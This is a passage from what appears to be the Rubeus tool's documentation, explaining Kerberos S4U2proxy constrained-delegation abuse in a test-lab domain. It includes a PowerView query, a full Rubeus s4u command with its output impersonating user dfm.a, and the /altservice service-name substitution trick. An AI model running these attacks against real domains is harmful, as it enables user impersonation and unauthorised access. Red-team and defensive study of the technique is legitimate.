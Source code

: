         doIF2jCCBdagAwIBBaEDAgEWoo...(snip)...

That forwardable ticket can then be used as a `/tgs:Y` parameter (base64 blob or .kirbi file) to execute the S4U2proxy process. A valid **msds-allowedtodelegateto** value for the account must be supplied (`/msdsspn:X`). Say the **patsy@testlab.local** account looks like this:

    PS C:\> Get-DomainUser patsy -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
    ldap/PRIMARY.testlab.local/testlab.local
    ldap/PRIMARY
    ldap/PRIMARY.testlab.local/TESTLAB
    ldap/PRIMARY/TESTLAB
    ldap/PRIMARY.testlab.local/DomainDnsZones.testlab.local
    ldap/PRIMARY.testlab.local/ForestDnsZones.testlab.local
    ldap/PRIMARY.testlab.local

Then the S4U2proxy abuse function (using the ticket from the previous S4U2self process) would be:

    C:\Rubeus>Rubeus.exe s4u /ticket:doIE+jCCBPagAwIBBaEDAgEWoo..(snip).. /msdsspn:"ldap/PRIMARY.testlab.local" /tgs:doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..
     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: S4U

    [*] Loaded a TGS for TESTLAB.LOCAL\dfm.a@TESTLAB.LOCAL
    [*] Impersonating user 'dfm.a@TESTLAB.LOCAL' to target SPN 'ldap/PRIMARY.testlab.local'
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2641 bytes
    [*] Received 1829 bytes
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'ldap/PRIMARY.testlab.local':

        doIGujCCBragAwIBBaEDAgEWoo..(snip)..

Where `/ticket:X` is the TGT returned in the first step, and `/tgs` is the S4U2self ticket. Injecting the resulting ticket (manually with [Rubeus.exe ptt /ticket:X](#ptt) or by supplying the `/ptt` flag to the **s4u** command) will allow you access the **ldap** service on primary.testlab.local _as if you are dfm.a_. 

The `/altservice` parameter takes advantage of [Alberto Solino](https://twitter.com/agsolino)'s great discovery about [how the service name (sname) is not protected in the KRB-CRED file](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more), only the server name is. This allows us to substitute in any service name we want in the resulting KRB-CRED (.kirbi) file. One or more alternate service names can be supplied, comma separated (`/altservice:cifs,HOST,...`).

